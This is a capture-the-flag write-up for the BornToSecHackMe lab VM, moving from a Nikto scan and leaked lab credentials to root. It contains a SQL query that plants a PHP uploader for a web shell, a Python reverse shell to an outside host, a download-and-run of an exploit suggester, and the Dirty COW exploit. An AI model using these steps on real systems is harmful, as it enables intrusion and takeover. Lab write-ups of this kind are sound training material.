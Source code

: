 # Web

```shell
$ nikto -h http://192.168.56.143/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.56.143
+ Target Hostname:    192.168.56.143
+ Target Port:        80
+ Start Time:         2022-07-11 17:29:41 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, inode: 13650, size: 1025, mtime: 0x5218c3c475880
+ The anti-clickjacking X-Frame-Options header is not present.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2022-07-11 17:29:48 (GMT2) (7 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


$ nikto -h https://192.168.56.143/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.56.143
+ Target Hostname:    192.168.56.143
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject: /CN=BornToSec
                   Ciphers: ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:  /CN=BornToSec
+ Start Time:         2022-07-11 17:21:22 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ Hostname '192.168.56.143' does not match certificate's CN 'BornToSec'
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.20
+ Cookie PHPSESSID created without the secure flag
+ Cookie PHPSESSID created without the httponly flag
+ Cookie mlf2_usersettings created without the secure flag
+ Cookie mlf2_usersettings created without the httponly flag
+ Cookie mlf2_last_visit created without the secure flag
+ Cookie mlf2_last_visit created without the httponly flag
+ OSVDB-3092: /forum/: This might be interesting...
+ Cookie phpMyAdmin created without the httponly flag
+ Cookie SQMSESSID created without the secure flag
+ Cookie SQMSESSID created without the httponly flag
+ Uncommon header 'x-frame-options' found, with contents: SAMEORIGIN
+ OSVDB-3093: /webmail/src/read_body.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ Server leaks inodes via ETags, header found with file /icons/README, inode: 47542, size: 5108, mtime: 0x438c0358aae80
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6544 items checked: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2022-07-11 17:23:28 (GMT2) (126 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

```
+ OSVDB-3092: /forum/: This might be interesting...
+ OSVDB-3093: /webmail/src/read_body.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ /phpmyadmin/: phpMyAdmin directory found
```
So we have three routes in https:
```
https://192.168.56.143/forum
https://192.168.56.143/webmail
https://192.168.56.143/phpmyadmin
```

## Forum
In `https://192.168.56.143/forum/` we find the `Probleme login?` Thread of 
`lmezard` in which he writes a log of his access, in fact we find something 
interesting:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by
```
he appears to have accidentally typed the password into the user field, actually 
entering `!q\]Ej?*5K5cy*AJ` as the password and `lmezard` as the user, the 
password is correct.

Unfortunately nothing else is found in the forum, so I switch to the `webmail` 
route because `phpmyadmin` is obviously password protected.

## Webmail
We only have the password of the user `lmezard` so I try to enter his email 
(previously taken from the forum info) and the same password.
```
email:     laurie@borntosec.net
password:  !q\]Ej?*5K5cy*AJ
```
It works, and we find the following email from `qudevide@mail.borntosec.net`:
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
So now we also have the `phpmyadmin` password.

After several tests in the default folders of the services on the server, I finally find the 'templates_c' folder where you can upload a file. So I use the following query to load a simple page that will allow me to load a webshell later (I chose the C99 as it offers many options `https://raw.githubusercontent.com/cermmik/C99-WebShell/master/c99shell.php`)

```
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE '/var/www/forum/templates_c/uploader.php';
```

So through C99 we start a reverse shell with python:
(`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md`)
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.101",4222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

And I execute the commands:
```shell
curl -k https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -o linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```
So through linux-exploit-suggester we know which exploits are available on this version of the Linux Kernel.
The first recommended exploit is dirtycow: `https://www.exploit-db.com/exploits/40839`
```shell
$ curl -k https://www.exploit-db.com/raw/40839 -o dirty.c
$ sed -i 's/user.username = \"firefart\"/user.username = \"root\"/g' dirty.c
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty usavoia
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: usavoia
Complete line:
root:fi92lWcwqRO3o:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'usavoia'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'usavoia'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ su
su
Password: usavoia

root@BornToSecHackMe:/var/www/forum/templates_c# id
id
uid=0(root) gid=0(root) groups=0(root)
root@BornToSecHackMe:/var/www/forum/templates_c# cd
cd
root@BornToSecHackMe:~# ls -l
ls -l
total 1
-rw-r--r-- 1 root root 40 Oct 15  2015 README
root@BornToSecHackMe:~# cat README
cat README
CONGRATULATIONS !!!!
To be continued...
root@BornToSecHackMe:~#
```
